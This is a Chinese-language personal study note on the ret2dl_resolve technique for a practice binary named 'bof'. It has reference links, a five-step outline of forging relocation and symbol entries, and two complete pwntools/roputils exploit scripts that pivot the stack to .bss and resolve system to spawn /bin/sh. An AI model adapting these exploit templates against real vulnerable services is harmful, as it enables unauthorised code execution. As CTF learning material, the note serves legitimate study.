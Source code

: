 # 7.28 百无聊赖

> 最近拖了好久的ret2dl_resolve，最近一直在划水，而且这个知识有点过于晦涩，实在是搞不太懂一些知识，然后朱师傅搞出来了，我也不能再拖了，看了一堆的博客，大概知道了原理咋样，但是感叹一句，要是直接写肯定写不出来的，所以就记录一下exp，以后遇见直接改最好。

## 预备知识

看博客

[<http://rk700.github.io/2015/08/09/return-to-dl-resolve/>](http://rk700.github.io/2015/08/09/return-to-dl-resolve/)

[<https://www.anquanke.com/post/id/177450>](https://www.anquanke.com/post/id/177450)

[<http://pwn4.fun/2016/11/09/Return-to-dl-resolve/>](http://pwn4.fun/2016/11/09/Return-to-dl-resolve/)

基本上讲的就是延迟绑定机制和ELF文件头的知识，然后就是利用思路的问题

## 漏洞利用方式

1. 控制`eip`为PLT[0]的地址，只需传递一个`index_arg`参数
   2. 控制`index_arg`的大小，使`reloc`的位置落在可控地址内
      3. 伪造`reloc`的内容，使`sym`落在可控地址内
         4. 伪造`sym`的内容，使`name`落在可控地址内
            5. 伪造`name`为任意库函数，如`system`

之后发现一个大问题，这个好像和前面看的知识有点毛病的啊，我不知道该如何实现，之后就看ctfwiki这一块的知识，主要讲利用，之后花了一下午的时间照着打了打调试了一下，大概知道要怎么利用了，应该就是一个模板类的题目，exp改改直接日就行。主要是要把真个全部都偏到我们能控制的地方就可以的。所以用的例题应该就是bss段可写，整个栈都搬到了bss上面。

调试过程直接省略，直接上exp

```python
from pwn import *

elf = ELF('bof')
r=process('./bof')
rop=ROP('./bof')

offset=112
bss_addr=elf.bss()

stack_size=0x800
base_stage=bss_addr+stack_size

rop.raw('a'*offset)
rop.read(0,base_stage,100)
rop.migrate(base_stage)
r.sendline(rop.chain())

rop=ROP('./bof')
sh="/bin/sh"
dynsym=elf.get_section_by_name('.dynsym').header.sh_addr
dynstr=elf.get_section_by_name('.dynstr').header.sh_addr
plt0=elf.get_section_by_name('.plt').header.sh_addr
rel_plt=elf.get_section_by_name('.rel.plt').header.sh_addr
index_offset=base_stage+24-rel_plt
write_got=elf.got['write']
fake_sym_addr=base_stage+32

align=0x10-((fake_sym_addr-dynsym)&0xf)
fake_sym_addr=fake_sym_addr+align
index_dynsym=(fake_sym_addr-dynsym)/0x10
st_name=fake_sym_addr + 0x10 - dynstr
fake_write_sym=flat([st_name,0,0,0x12])

r_info=(index_dynsym<<8)| 0x7
fake_write_reloc=flat([write_got,r_info])


rop.raw(plt0)
rop.raw(index_offset)
rop.raw('bbbb')
rop.raw(base_stage+82)
rop.raw('bbbb')
rop.raw('bbbb')
rop.raw(fake_write_reloc)
rop.raw('a'*align)
rop.raw(fake_write_sym)
rop.raw('system\x00')
rop.raw('a'*(80-len(rop.chain())))
print rop.dump()
print len(rop.chain())
rop.raw(sh+'\x00')
rop.raw('a'*(100-len(rop.chain())))

r.sendline(rop.chain())
r.interactive()
```

前面的实验过程放在文件夹里面了。

然后就是工具roputils使用写的exp

```python
#!/usr/bin/python

from pwn import *
from roputils import *

r = process('./bof')
r.recv()

rop=ROP('./bof')
offset=112
bss_base=rop.section('.bss')
buf=rop.fill(offset)
buf+=rop.call('read',0,bss_base,100)
buf+=rop.dl_resolve_call(bss_base+20,bss_base)

r.send(buf)

buf=rop.string('/bin/sh')
buf+=rop.fill(20,buf)
buf+=rop.dl_resolve_data(bss_base+20,'system')
buf+=rop.fill(100,buf)
r.send(buf)
r.interactive()
```

之后我决定写一个关于roputils使用的文章，要不然我也不会用啊！！

> 之后整个洞看下来，我是谁我在哪我要做啥？之后工具直接用，看的也云里雾里，等后面继续复习再日一遍吧！
